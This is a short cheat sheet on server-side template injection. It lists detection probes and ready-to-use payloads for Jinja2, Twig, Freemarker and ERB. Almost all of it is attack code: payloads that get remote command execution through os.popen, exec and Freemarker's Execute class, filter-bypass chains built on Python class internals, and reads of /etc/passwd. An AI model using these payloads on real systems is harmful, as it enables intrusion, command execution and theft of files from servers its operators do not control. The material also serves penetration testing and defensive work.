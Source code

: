 ### Template Injection (SSTI)

#### Detection

```python
# Test payloads
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

#### Jinja2 (Python)

```python
# RCE
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}

# Bypass filters
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[407]('id',shell=True,stdout=-1).communicate()[0].strip() }}

# File read
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Twig (PHP)

```php
# RCE
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
```

#### Freemarker (Java)

```java
# RCE
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
<#assign classLoader=object?api.class.getClassLoader()>
```

#### ERB (Ruby)

```ruby
# RCE
<%= system('id') %>
<%= `id` %>
<%= File.open('/etc/passwd').read %>
```

---